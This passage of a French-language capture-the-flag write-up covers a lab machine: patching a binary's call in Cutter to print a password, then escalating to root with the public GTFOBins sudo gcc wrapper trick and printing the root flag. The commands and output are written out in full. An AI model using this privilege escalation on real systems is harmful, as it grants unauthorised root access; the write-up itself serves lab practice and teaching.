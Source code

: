 Mais j'ai eu une solution encore plus fainéante : j'ai édité avec `Cutter` un `call` dans le `main` pour qu'il appelle à la place la fonction `backup`. J'ai sauvegardé l'exécutable et l'ai exécuté :

```console
$ ./backup.txt  | head -5

My password is Pyth0n
Bla
Bla
Bla
```

## Get The Fuck Ouuuuuuuuuuuuut!

Dans tous les cas, on découvre que `loopspell` a, lui aussi, des autorisations `sudo` :

```console
loopspell@ck05:/home/loopspell$ sudo -l
Matching Defaults entries for loopspell on ck05:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User loopspell may run the following commands on ck05:
    (ALL : ALL) /usr/bin/gcc
    (ALL : ALL) NOPASSWD: /home/loopspell/code_compiler.sh
```

On trouve [un GTFObin](https://gtfobins.github.io/gtfobins/gcc/) pour la commande `gcc` :

```console
loopspell@ck05:~$ sudo /usr/bin/gcc -wrapper /bin/sh,-s .
[sudo] password for loopspell: 
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
root.txt
# cat root.txt
_________        ___.                 ____  __.      .__       .__     __    _______   .________
\_   ___ \___.__.\_ |__   ___________|    |/ _| ____ |__| ____ |  |___/  |_  \   _  \  |   ____/
/    \  \<   |  | | __ \_/ __ \_  __ \      <  /    \|  |/ ___\|  |  \   __\ /  /_\  \ |____  \ 
\     \___\___  | | \_\ \  ___/|  | \/    |  \|   |  \  / /_/  >   Y  \  |   \  \_/   \/       \
 \______  / ____| |___  /\___  >__|  |____|__ \___|  /__\___  /|___|  /__|    \_____  /______  /
        \/\/          \/     \/              \/    \/  /_____/      \/              \/       \/ 


flag = efa4c284b8e2a15674dfb369384c8bcf

This flag is a proof that you get the root shell.

Tag me on Twitter with @CyberKnight00
```

## Quickspell
